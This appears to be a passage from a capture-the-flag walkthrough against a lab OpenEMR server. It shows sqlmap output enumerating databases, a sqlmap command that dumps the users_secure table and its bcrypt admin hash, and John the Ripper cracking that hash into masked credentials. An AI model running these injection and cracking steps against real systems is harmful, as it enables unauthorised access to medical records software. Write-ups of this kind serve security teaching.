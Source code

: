 ```md
[REDACTED]

---
[08:46:20] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[08:46:21] [INFO] fetching database names
[08:46:21] [INFO] retrieved: 'information_schema'
[08:46:21] [INFO] retrieved: 'openemr'
available databases [2]:                                                                                                                                                                    
[*] information_schema
[*] openemr

[REDACTED]
```
Now that we have listed the databases, let’s dump the tables in the *openemr* database. There are several users tables, but the one that is interesting is *users_secure*. Let’s dump the content of the table:
```md
kali@kali:/data/Cache/files$ sqlmap -r add_edit_event_user.xml -D openemr -T users_secure --dump

[REDACTED]

Database: openemr
Table: users_secure
[1 entry]
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
| id | salt                           | password                                                     | username      | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1  | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | openemr_admin | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+

[REDACTED]
```          
---
## Crack openemr_admin’s password
The table contains the *openemr_admin*’s password hash. Save the hash and crack it with John:
```md
kali@kali:/data/Cache/files$ /data/src/john/run/john openemr_admin.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-09-17 08:55) 1.724g/s 1458p/s 1458c/s 1458C/s tristan..princesita
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
We now have valid credentials: *openemr_admin:xxxxxx*

---